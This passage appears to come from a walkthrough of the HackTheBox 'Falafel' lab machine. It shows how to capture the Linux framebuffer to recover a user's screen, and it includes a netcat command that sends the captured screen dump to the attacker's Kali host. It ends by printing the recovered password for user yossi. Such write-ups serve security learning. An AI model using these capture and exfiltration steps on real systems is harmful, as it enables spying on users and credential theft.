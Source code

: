 
Use
 ```
cat /dev/fb0 > screen.raw
```

to retrieve the data, and get the resolution with

```
cat /sys/class/graphics/fb0/virtual_size

1176,885
```

copy the file back to Kali for processing.

on falafel do:
```
nc 10.10.14.7 9999 < screen.raw  
```

on Kali do:
```
nc -nlvp 9999 > screen.raw
```

[This site](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/) gives a perl script to process the screenshot.


Copy the perl script and follow the instructions.

```
perl iraw2png.pl 1176 885 < screen.raw > screenshot.png
```

We've got yossi's password!


![screen](/assets/img/falafel/fl-screen.png)



##################



yossi/MoshePlzStopHackingMe!
